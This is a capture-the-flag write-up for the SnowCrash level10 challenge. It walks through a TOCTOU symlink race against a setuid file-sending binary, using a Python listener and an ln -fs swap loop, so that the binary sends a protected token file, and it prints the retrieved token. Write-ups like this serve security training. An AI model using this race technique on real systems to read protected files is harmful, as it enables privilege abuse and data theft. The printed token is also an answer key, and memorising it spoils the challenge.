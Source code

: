 # Level10

## Hint

You need to make a server but also do some symbolic links trickery.

## Answer

Let's check our current directory:
```
level10@SnowCrash:~$ ll
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 ./
d--x--x--x  1 root    users     340 Aug 30  2015 ../
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout*
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-r-x------  1 level10 level10   675 Apr  3  2012 .profile*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

We have an executable file, let's run it first !
```
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
```

Let's create a test file and give it as an argument to our executable and use the localhost as host:
```
level10@SnowCrash:~$ echo hi > /tmp/test; ./level10 /tmp/test 0.0.0.0
Connecting to 0.0.0.0:6969 .. Unable to connect to host 0.0.0.0
```

Seems like we have to make on our own server, let's do one in python:
```python
import socket

HOST = '0.0.0.0'
PORT = 6969

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((HOST, PORT))
    s.listen(1)
    while True:
        conn, addr = s.accept()
        print('Connected by', addr)
        while True:
            data = conn.recv(1024)
            if not data:
                break
            print(data)


if __name__ == '__main__':
    main()
```

Let's run our server first and run our executable again:
```
level10@SnowCrash:~$ ./level10 /tmp/test 0.0.0.0
Connecting to 0.0.0.0:6969 .. Connected!
Sending file .. wrote file!
```

This is the output of our server:
```
level10@SnowCrash:~$ python /tmp/uwu.py
('Connected by', ('127.0.0.1', 52407))
.*( )*.
hi
``` 

Perfect ! Now let's try with our `token` file instead:
```
level10@SnowCrash:~$ ./level10 token 0.0.0.0
You don't have access to token
```

Huh seems like we'll have to do a symbolic link again:
```
level10@SnowCrash:~$ ln -s ~/token /tmp/link
level10@SnowCrash:~$ ./level10 /tmp/link 0.0.0.0
You don't have access to /tmp/link
```

That doesn't work either, after a while we figured out we can exploit the symlinks to make the executable believe we have the correct permissions:
```
echo > /tmp/hack && while :; do ln -fs /tmp/hack /tmp/fake; ln -fs ~/token /tmp/fake; done
```

Essentially all we're doing here is creating a symbolic link to a file we have read permissions on, and then switching it to the `token` file which we can't read. All we have to do is get the correct timing for the executable to see that we have the correct permissions because it checks the `/tmp/fake` file and then opens the `token` file because the symlink has changed in between the two instructions.

Alright let's do our executable again *(while the python server and the shell script are running)*:
```
level10@SnowCrash:~$ ./level10 /tmp/fake 0.0.0.0
Connecting to 0.0.0.0:6969 .. Connected!
Sending file .. wrote file!
```

And our server outputs:
```
level10@SnowCrash:~$ python /tmp/uwu.py
('Connected by', ('127.0.0.1', 52455))
.*( )*.

woupa2yuojeeaaed06riuj63c
```
